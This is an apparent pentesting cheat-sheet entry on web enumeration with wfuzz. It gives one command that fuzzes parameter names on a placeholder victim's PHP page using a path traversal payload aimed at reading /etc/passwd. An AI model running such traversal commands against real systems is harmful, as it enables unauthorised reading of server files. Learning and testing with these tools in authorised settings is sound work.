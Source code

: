 wfuzz enum
****************

This can be used for finding resourced not linked to directories, servlets, scripts, etc.

URL file
##########

.. code-block:: console
       
   wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 80 --hc 404 http://<victimIP>/potential_malcious_page.php?FUZZ../../../../../../../../../../etc/passwd 
